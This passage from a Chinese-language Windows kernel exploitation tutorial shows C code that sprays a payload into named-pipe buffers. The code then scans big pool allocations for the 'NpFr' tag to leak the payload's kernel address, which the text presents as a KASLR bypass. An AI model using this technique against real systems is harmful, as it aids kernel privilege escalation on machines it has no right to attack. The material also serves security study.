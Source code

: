 ```
                 &writePipe,
                 NULL,
                 sizeof(payLoad));
if (res == FALSE) goto Cleanup;
res = WriteFile(writePipe,
                payLoad,
                sizeof(payLoad),
                &resultLength,
                NULL);
if (res == FALSE) goto Cleanup;
 
//
// extra code goes here...
//
 
Cleanup:
CloseHandle(writePipe);
CloseHandle(readPipe);

```

我们已经知道的是NPFS读取数据缓冲区的池标识是“NpFr”（你可以用WinDBG的!pool和!poolfind命令来查找）。因此我们就可以将该标识硬编码进我们的程序段，并通过该标识找到我们所期待的装载有攻击载荷的内核态虚拟地址，而为对付地址随机分配机制的老的KASLR绕过的代码就不再需要了。

记住“分页 vs 非分页”标识是被按位与到虚拟地址中（与之前我们所说的标识空闲或已占用的位不同）的，因此我们就可以将其标出来，同时也要考虑池头部的对齐问题（对齐是强制执行的，即使对于“大池”分配也一样）。下面的显示NpFr标识内存块地址的程序段，适用于X86平台的Windows：

```
//
// Based on pooltag.txt, we're looking for the following:
// NpFr - npfs.sys - DATA_ENTRY records (r/w buffers)
//
for (entry = bigPoolInfo->AllocatedInfo;
     entry < (PSYSTEM_BIGPOOL_ENTRY)bigPoolInfo +
                                    bigPoolInfo->Count;
     entry++)
{
    if ((entry->NonPaged == 1) &&
        (entry->TagUlong == 'rFpN') &&
        (entry->SizeInBytes == ALIGN_UP(PAGE_SIZE + 44,
                                        ULONGLONG)))
    {
        printf("Kernel payload @ 0x%p\n",
               (ULONG_PTR)entry->VirtualAddress & ~1 +
               PAGE_SIZE);
        break;
    }
}

```

下图是WinDBG中的截图证明。

